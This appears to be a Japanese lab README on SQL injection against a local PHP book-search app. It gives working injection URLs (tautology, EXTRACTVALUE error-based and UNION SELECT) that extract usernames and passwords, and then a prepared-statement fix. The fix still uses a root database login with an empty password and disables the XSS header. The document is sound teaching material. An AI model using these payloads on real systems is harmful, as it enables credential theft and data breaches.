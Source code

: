 ## 演習

### アプリケーションの起動

以下のコマンドをターミナルで実行してみましょう。

```bash
docker-compose up
```

### アプリケーションの概要

このアプリケーションでは`search.php`の後に`?author=example`のような形で著者名による書籍データベース検索をします。
authorのパラメータに設定された文字列をそのままチェック等一切なしでSQL文に組み込んでいるため、SQLインジェクションができてしまいます。

正常な実行結果の例としては`http://127.0.0.1/search.php?author=Atabasca`を実行してみてください。

### 攻撃

1. `http://127.0.0.1/search.php?author='+OR+'a'='a` というURLでauthorパラメータを設定してアクセスする。
2. 実行された結果として、著者名に関係なく書籍データベースが取得できてしまう。
3. `http://127.0.0.1/search.php?author='+AND+EXTRACTVALUE(0,(SELECT+CONCAT('$',username,':',password)+FROM+users+LIMIT+0,1))+%23`というURLで同様にアクセスする。
4. 実行された結果、エラーメッセージとして`Unknown XPATH variable at: '$guest:...'`という形で、同じデータベースの別のテーブルとして入っているusername/passwordの組を取得できてしまう。
5. `http://127.0.0.1/search.php?author='+UNION+SELECT+username,password,NULL,NULL+FROM+users--+%60`というURLで同様にアクセスする。
6. 今度はテーブルの「ID」の欄にusername、「タイトル」の欄にpasswordが表示される形でテーブルusersの内容全部が取得できてしまう。

### 攻撃の対策

search.phpをプレースホルダを使うように書き換えることで脆弱性をなくすことができます。具体的には最初のデータベースをアクセスする部分は以下のように書き換えます。

```php
<?php
    session_start();
    header("X-XSS-Protection: 0;");
    $author = $_GET['author'];
    try {
        $options = array(PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
            PDO::MYSQL_ATTR_MULTI_STATEMENTS => false,
            PDO::ATTR_EMULATE_PREPARES => false);
        $dbname = 'mysql:host=' . $_ENV['DATABASE_HOST'] . ';dbname=sampledb;charset=utf8mb4';
        $dbh = new PDO($dbname, 'root', '', $options);
        $sqlcode = "SELECT * FROM booklist WHERE author = ? ORDER BY id";
        $result = $dbh->prepare($sqlcode);
        $result->bindValue(1, $author, PDO::PARAM_STR);
        $result->execute();
?>
```
